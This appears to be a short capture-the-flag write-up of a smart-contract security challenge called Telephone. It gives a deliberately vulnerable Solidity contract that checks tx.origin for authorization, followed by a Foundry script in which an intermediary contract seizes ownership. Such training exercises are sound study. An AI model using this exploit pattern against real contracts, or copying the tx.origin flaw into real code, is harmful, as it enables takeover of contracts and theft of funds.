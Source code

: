 # #Telephone

**Challenge :** Claim ownership of the contract.

**Contract**

```Solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}
```
`tx.origin` -> It always returns the EOA (Externally Owned Account) who initiated the TX.

So with this thing I can solve the challenge using the followig foundry script 

**Here's the Foundry script that solves the challenge**
```foundry
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import {Script} from "forge-std/Script.sol";
import {Telephone} from "../src/Telephone.sol";
import {console} from "forge-std/console.sol";

contract Attack {

    constructor (Telephone _telephone , address _newOwner) {
        _telephone.changeOwner(_newOwner);
    }
}

contract TelephoneSolution is Script {
    
    Telephone telephone = Telephone(0x0a75A78330f44276dF198d1AF2Ebb2b6b2f38a8a); // instance
    
    function run() public {
       vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
       console.log("Current owner:", telephone.owner());
         new Attack(telephone, vm.envAddress("ADDRESS"));
         console.log("New owner:", telephone.owner());
       vm.stopBroadcast();
    }

}
```
---
